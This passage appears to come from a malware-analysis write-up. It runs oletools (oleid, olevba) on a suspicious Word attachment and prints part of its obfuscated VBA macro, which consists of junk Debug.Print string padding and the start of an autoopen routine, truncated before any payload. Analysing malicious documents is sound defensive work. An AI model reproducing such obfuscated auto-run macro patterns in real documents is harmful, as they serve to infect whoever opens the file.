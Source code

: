 ```
oleid 0.54 - http://decalage.info/oletools
THIS IS WORK IN PROGRESS - Check updates regularly!
Please report any issue at https://github.com/decalage2/oletools/issues

Filename: ./ANHANG-16231-21845251.doc
 Indicator                      Value
 OLE format                     True
 Has SummaryInformation stream  True
 Application name               Microsoft Office Word
 Encrypted                      False
 Word Document                  True
 VBA Macros                     True
 Excel Workbook                 False
 PowerPoint Presentation        False
 Visio Drawing                  False
 ObjectPool                     True
 Flash objects                  0
```

The second tool I used was `olevba`. It has been used to extract the VBA macros
from the `.doc` file. The output I received looked
[obfuscated](<https://en.wikipedia.org/wiki/Obfuscation_(software)>) (the snippet
below has been truncated):

```
olevba 0.54.1 on Python 2.7.16 - http://decalage.info/python/oletools
===============================================================================
FILE: ./ANHANG-16231-21845251.doc
Type: OLE
-------------------------------------------------------------------------------
VBA MACRO Swlfot9.cls
in file: ./ANHANG-16231-21845251.doc - OLE stream: u'Macros/VBA/Swlfot9'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
(empty macro)
-------------------------------------------------------------------------------
VBA MACRO zC7wlka.vba
in file: ./ANHANG-16231-21845251.doc - OLE stream: u'Macros/VBA/zC7wlka'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
Sub K9hj1nG()
   Debug.Print "724" + ("516") + ("UPOp3Hrt" + ("23" + "361") + "vC9PPmCK" + ("rjITKvEv"))
Debug.Print "20" + ("994") + ("u_8YY68" + ("791" + "454") + "rbk4PQH" + ("iqapjj9"))
Debug.Print "942" + ("653") + ("pqQI0T2" + ("226" + "126") + "N7OT4k" + ("Z6j2ENjS"))
   Debug.Print "387" + ("127") + ("wjf7biL" + ("20" + "64") + "nE0OG8" + ("GNXHVKT"))
Debug.Print "255" + ("590") + ("kPaztnd9" + ("626" + "534") + "nc7FkKV" + ("itIImYJ"))
Debug.Print "763" + ("124") + ("lLo5VRP" + ("611" + "629") + "tJnnqa" + ("EPdjCjRp"))
End Sub
Sub _
autoopen( _
)

[...]
```

